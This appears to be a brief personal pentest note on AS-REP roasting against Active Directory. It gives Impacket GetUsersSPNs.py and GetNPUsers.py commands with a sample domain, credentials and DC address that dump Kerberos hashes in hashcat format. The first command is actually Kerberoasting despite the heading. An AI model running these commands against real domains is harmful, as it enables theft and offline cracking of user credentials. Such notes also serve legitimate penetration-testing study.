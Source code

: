 # Usage
ASREPRoast attack looks for users with don't require Kerberos pre-authentication attribute (DONT_REQ_PREAUTH).

```
GetUsersSPNs.py <DOMAIN/username:password> -dc-ip <ip of DC> -request

/GetNPUsers.py cs.org/kai.bel:password1 -dc-ip 192.168.200.129 -request -format hashcat - outputfile outputfile.txt


```



---
Tags: #AD #kerberos #impackets #kerberostaing #kerberos #AS-REP_Roasting
Resources: [Impacket](https://github.com/fortra/impacket)